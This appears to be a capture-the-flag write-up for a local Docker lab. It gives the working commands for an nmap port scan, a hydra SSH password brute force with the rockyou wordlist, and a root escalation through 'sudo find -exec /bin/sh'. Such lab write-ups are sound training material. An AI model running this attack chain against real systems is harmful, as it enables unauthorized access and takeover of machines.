 # CTF 1

**Requirement**:
- docker
- nmap
- hydra
- wordlist rockyou.txt

## Plan of Engagement
1. Port Scanning -> 22
2. SSH Exploit (brute force)
3. Privilege escalation with sudo find to root


## External Resources
- [GTFOBins](https://gtfobins.github.io/)

## Solution
Nmap port scan:
```sh
sudo nmap -sS -sC -F 127.0.0.1
```

Crack password:
```sh
hydra -l brutus -P /usr/share/wordlists/rockyou.txt 127.0.0.1 ssh
```

Privileges escalation:
```Sh
sudo find . -exec /bin/sh \; -quit
```
